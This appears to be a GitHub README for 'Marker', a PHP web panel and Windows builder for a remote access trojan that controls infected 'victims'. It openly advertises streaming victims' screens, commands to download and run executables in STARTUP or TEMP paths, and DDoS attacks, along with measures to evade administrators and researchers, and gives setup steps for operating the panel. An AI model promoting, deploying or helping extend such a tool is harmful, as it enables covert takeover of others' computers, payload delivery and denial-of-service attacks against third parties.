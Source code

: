 ### Marker

# Features
- [x] Streaming desktop screenshot with request.
- [x] Supporting `4` commandline `download` + `download and run` + `ddos` + `msgbox` .
- [x] Supporting `offline` computers `Refresh every 19 secounds` .
- [x] Black List - manager page , `Delete IP` + `Remove All` .
- [x] Encrypt `Strong` key bettwen ` Server & Client ` to make it simply harder to decoded.
- [x] Full safe scan to script ` check if is that an admin is logged in ? ` or not and disconnect !
- [x] Safe script from ` flood ` by check the victims file is exists or not !
- [x] Safe script from ` wcp ` by blcok the victims IP ADDRESS in configs file - delete all victims file from hosting .


# Sample Usage
1. Upload all files in your hosting ` you can use xampp ` but check the ` 80 ` port is open in your router .
2. 'Requirements' : open file in ` /api/config.php ` and change ` Username + Password ` with your information .
```php
$username = 'test'; # Admin username
$password = 'test'; # Admin Password
```
3. open path ` /api/builder.rar ` and uncompress it in your desktop and run ` Marker Builder v1 - KingDomSc.exe ` to create a server .
4. logged in web-script , and get full controls with your victims .


# Project Commands
Command | Example | Description
--- | --- | ---
*download* | download(http://example/file.exe) | download file in `STARTUP` path
*downloadrun* | downloadrun(http://example/file.exe) | download file in `TEMP` path and running it
*ddos* | ddos(http//website.com/example) | To make online service unavailable
*msgbox* | msgbox(body,title) | To show messagebox with body and up title in victims computer .
<dl>
<dt>You can add more commands : </dt>
<dd>by edit file in ` /api/command.php ` + edit server `commandline` panel.</dd>
</dl>


# Screenshots
![alt text](http://up.dev-point.com/uploads1/d57d37f8f83a1.png "Login page")
![alt text](http://up.dev-point.com/uploads1/2164da4760961.png "Offline victims")
![alt text](http://up.dev-point.com/uploads1/4ed82b3d87663.png "Online victims")
![alt text](http://up.dev-point.com/uploads1/b2f1abd4e9ff2.png "No victims connect")
1. ` Login page `
2. ` Offline victims `
3. ` Online victims `
4. ` No victims connect `

![alt text](http://up.dev-point.com/uploads1/8cf54aa9a1594.png "Desktop screenshot")
1. ` Desktop Screenshot - online Streaming ` with ' Jquery Script '.

![alt text](http://up.dev-point.com/uploads1/e1c57572f6286.png "Setting page")
1. ` Setting page - Change username and password information ` .

![alt text](http://up.dev-point.com/uploads1/362bfaa40f152.png "Blacklist page")
1. ` Controls with blacklist IP ADDRESS ` with ` Remove once ` or ` Remove all `

![alt text](http://up.dev-point.com/uploads1/524105adef377.png "Builder app")
1. ` Builder Server Application - Windows Only `.


# Youtube Tutorial
[![IMAGE ALT TEXT HERE](https://i.ytimg.com/vi/ZHZsnNR2Zc4/hqdefault.jpg)](https://www.youtube.com/watch?v=ZHZsnNR2Zc4)
1. Special thanks to `Hallaj.Hack` - make this tutorial .


# Support the project
<a href="https://www.instagram.com/kingdomsc" target="_blank">Kingdomsc - Instagram Accounts</a>
